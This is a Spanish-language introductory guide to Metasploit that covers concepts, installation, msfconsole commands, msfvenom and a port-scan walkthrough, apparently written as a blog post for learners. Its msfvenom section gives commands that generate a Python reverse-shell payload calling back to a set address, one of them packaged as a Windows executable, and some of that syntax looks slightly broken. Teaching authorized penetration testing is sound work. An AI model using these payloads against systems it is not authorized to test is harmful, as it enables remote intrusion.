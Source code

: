 ```yaml
---
title: Metasploit
author: J.Conde
date: 2022-08-16 11:16:00 -03000 
categories: [Hacking, Pentesting]
tags: [Pentesting, guide]
math: true
mermaid: true
---
```


## Índice
- [Definición](#definición)
- [Conceptos](#conceptos)
- [Uso de metasploit](#uso-de-metasploit)
  - [Instalación](#instalación)
  - [Parámetros](#parametros)
  - [Msfvenom](#msfvenom)
  - [Ejemplo de uso](#ejemplo-de-uso)
  - [Armitage](#armitage)
    - [Instalación](#instalación)

### Definición
Metasploit es un proyecto de **código abierto** para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad
y ayuda en **Pentesting**. Para usar esta herramienta no necesitas tener conocimientos de lo que hace, ya que te lo dan **todo automatizado**, de 
forma que solo hay que hacer unos pequeños ajustes. En mi opinión no me gusta utilizarlo, pero un hacker, debe saber utilizar todas las herramientas 
posibles, por si algún día le es necesario. 

### Conceptos 
Antes de utilizarlo, es importante tener unos conceptos claros, estos son: 
- **Payload** ➜ Un payload es la parte del código del malware que realiza la acción maliciosa en el sistema.
- **Exploit** ➜ Es cualquier ataque que aprovecha las vulnerabilidades de las aplicaciones, las redes, los sistemas operativos o el hardware.
- **Handler** ➜ Handler es un listener (Similiar a netcat).
- **Meterpreter** ➜ Este concepto sale mucho en metasploit, este es un tipo de payload que te otorga un shell super potente.

Dentro de metasploit hay una serie de directorios importantes que son: 
- **El directorio principal (En Kali, Parrot)** 
  - */usr/share/metasploit-framework* 
- **El directorio principal (En Arch)** 
  - */opt/metasploit*

Dentro del podemos encontrar un directorio muy importante 
- **/opt/metasploit/modules** ➜ Aqui se encuentra los payloads.
- **/opt/metasploit/modules/payloads** ➜ Aqui dentro tenemos tres directorios super importantes.

Los tres directorios importantes son: 
- **/opt/metasploit/modules/payloads/singles** ➜ Estes son payloads autocontenidos, esto quiere decir que hace lo que indica (Crea usuarios, shell, etc).
- **/opt/metasploit/modules/payloads/stagers** ➜ Este tipo de payload necesita un stages para funcionar (Estos establecen la conexión).
- **/opt/metasploit/modules/payloads/stages** ➜ Este se deposita cuando el stagers realizan la conexión, y este realiza acciones más avanzadas, el más conocido es meterpreter. 

### Uso de Metasploit
#### Instalación 
Para instalar metasploit solo es necesario ejecutar el siguiente comando: 

En debian y derivadas
```bash
apt-get install metasploit -y 
```
En arch y derivadas 
```bash
pacman -S metasploit --noconfirm
```

Una vez instalado para lanzarlo usamos: 
```bash
msfconsole
```

#### Parametros
En esta ocasión no parametros, sino las funcionalidades que incluye dentro para usar, algunas son: 
- **connect** ➜ Nos permite conectarnos a un puerto que este a la escucha 
- **search** ➜ Nos permite buscar exploit del servicio indicado 
- **use** ➜ Usamos el exploit indicado que obtuvimos haciendo el search 
- **back** ➜ Nos permite salir del exploit 
- **sessions** ➜ Vemos las sesiones actualies
- **show options** ➜ Vemos las opciones básicas del exploit 
- **show advanced** ➜ Vemos las opciones avanzadas del exploit 
- **set** ➜ Nos permite modificar el valor de las variables que usa 
- **show payloads** ➜ Nos permite ver los payloads que utiliza ese exploit 
- **set payload** ➜ Indicamos el payload a usar 
- **exploit** ➜ Lanzamos el ataque 
- **info** ➜ Muestra información sobre el exploit, payload, etc

#### Msfvenom 
Msfvenom, es una herramienta que nos permite crear payloads personalizados. Este forma parte de Metasploit, pero se puede usar como un 
comando cualquiera y por defecto es instalado junto a metasploit. Veamos algún ejemplo: 
- **-p** ➜ indicamos el payload 
- **lhost y lport** ➜ Variables que vamos a configurar 
- **-f** ➜ Tipo de extensión 
- **-o** ➜ Almacenar en fichero 

Generar un payload para otorgar una shell con python
```bash
msfvenom -p /python/shell_reverse_tcp lhost=192.168.20.123 lport 888  
```
Generar un payload para otorgar una shell con python para windows
```bash
msfvenom -p /python/shell_reverse_tcp lhost=192.168.20.123 lport 888 -f exe -o shell.exe
```

#### Ejemplo de uso
Ahora veremos un ejemplo de uso de metasploit, para realizar un escaneo de puertos. 
1. Comezamos lanzando metasploit 
```bash
msfconsole
```
2. Buscamos el exploit de escaneo de puertos
```bash
search portscan 
```
3. Usamos el exploit que escojamos 
```bash
use /auxiliary/scanner/portscan/tcp 
```
4. Vemos las opciones del exploit 
```bash
show options 
```
5. Configuramos las variables necesarios (Yes)
```bash
set rhosts 192.168.20.123 
```
6. Lo lanzamos 
```bash
exploit 
```

#### Armitage 
Armitage, es una inferfaz gráfica para utilizar metasploit de una forma más fácil. 

##### Instalación
En debian y derivadas. 

```bash
apt-get install armitage -y 
```
En arch y derivadas 

```bash
pacman -S armitage --noconfirm 
```
